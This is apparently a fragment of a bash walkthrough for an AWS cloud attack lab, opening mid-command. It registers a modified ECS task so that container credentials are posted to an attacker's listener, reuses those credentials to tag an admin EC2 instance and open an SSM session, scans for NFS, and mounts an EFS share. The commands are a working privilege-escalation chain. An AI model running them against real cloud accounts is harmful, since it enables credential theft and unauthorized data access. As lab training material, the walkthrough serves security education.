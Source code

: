 ```bash
    --profile ruse > task_template.json


# Now use task_def.json to fill out template.json with the desired payload. 

# register the template to replace the currently running task.
register-task-definition --cli-input-json file://task_template.json --profile ruse
# Wait for the task to run and POST the credentials to your listener

# With the new creds add them to "ruse_box"
aws configure --profile ecs

# Modify admin ec2 tags
aws ec2 create-tags \
    --resources <INSTANCE ID> \
    --tags Key=StartSession, Value=true

# Using ecs creds start a session on admin ec2
aws ssm start-session \
    --target <INSTANCE ID> \
    --profile ecs


# Update the existing service in the ecs cluster to execute the payload.


# From the container credentilas use the SSM:StartSession privlage to access the admin_box.


# Port scan the subnet to find avaible efs and mount.
# Looking at the ec2 instances we see the admin ec2 only has a single port open. We Nmap scan this port.
nmap -Pn -P 2049 --open 10.10.10.0/24


# Mount discovered ec2
cd /mnt 
sudo mkdir /efs 
sudo mount -t nfs4 -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <IP ADDRESS OF EFS>:/ efs

```
 